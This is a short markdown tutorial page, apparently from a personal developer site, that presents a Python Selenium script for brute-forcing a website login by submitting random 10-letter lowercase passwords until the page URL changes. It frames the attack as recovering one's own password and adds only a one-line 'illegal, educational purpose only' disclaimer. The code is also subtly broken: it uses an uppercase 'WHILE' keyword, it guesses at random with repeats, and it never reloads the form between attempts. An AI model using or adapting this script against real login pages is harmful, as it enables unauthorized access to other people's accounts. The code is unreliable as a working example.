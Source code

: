 ```yaml
---
title: 'Retrieve your password /Hacking/'
description: "Imagine that you have lost an essential password but you can't change it"
category: Dev
position: 1
---
```


## Explanation
Imagine that you cannot retrieve your password because you have no longer access to your email. 
You can contact the website but that is too simple. 

You can bruteforce if your password is not long.

(This is illegal, don't to this, educationnal purpose only)

## The code
<code-group>
  <code-block label="main.py" active>

  ```python
import random
import string
from selenium import webdriver
from selenium.common.exceptions import NoSuchElementException
from selenium.webdriver.common.action_chains import ActionChains
from selenium.webdriver.common.keys import Keys
chrome_options = webdriver.ChromeOptions()
chrome_options.add_argument('--no-sandbox')
chrome_options.add_argument('--headless')
chrome_options.add_argument('--disable-gpu')
chrome_options.add_argument('--disable-dev-shm-usage')
chrome_options.add_argument("--window-size=1920,1080")
driver = webdriver.Chrome(options=chrome_options)
DAURL = "https://www.THEWEBSITETOLOG.com/login"
driver.get(DAURL)
WHILE True :
    randompassword = ''.join(random.choice(string.ascii_lowercase) for i in range(10))  ##THIS WILL GENERATE 10 caracters long password with ONLY letters
    username = driver.find_element_by_id("username")
    password = driver.find_element_by_id("password")
    username.send_keys("My USERNAME")
    password.send_keys(randompassword)
    driver.find_element_by_id("submit_btn").click()
    if DAURL != driver.current_url: 
        print("The password is found")
        print(randompassword)
        ##You can send you an email, call your api to know the password
        break
driver.close()
  ```

  </code-block>
  </code-group>